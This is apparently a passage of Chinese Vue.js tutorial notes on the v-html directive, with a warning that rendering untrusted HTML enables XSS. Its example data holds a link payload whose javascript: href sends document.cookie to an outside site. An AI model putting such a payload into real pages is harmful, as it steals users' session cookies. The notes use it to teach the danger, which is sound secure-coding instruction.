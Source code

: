 ```html
        return dayjs(value).format(str);
      },
    },
  });
  new Vue({
    el: "#root2",
    data: {
      msg: "hello!",
    },
  });
</script>
```

## vue 指令

### vue v-html 指令

```text
1.作用：向指定节点中渲染包含 html 结构的内容。
2.与插值语法的区别：
  (1).v-html 会替换掉节点中所有的内容，{{xx}}则不会。
  (2).v-html 可以识别 html 结构。
```

:::note
v-html 有安全性问题！！！！  
 (1).在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击。  
 (2).一定要在可信的内容上使用 v-html，永不要用在用户提交的内容上！
:::

```html
<div id="root">
  <div>你好，{{name}}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。
  new Vue({
    el: "#root",
    data: {
      name: "11",
      str: "<h3>你好啊！</h3>",
      str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟有好东西！</a>',
    },
  });
</script>
```

### vue v-cloak 指令
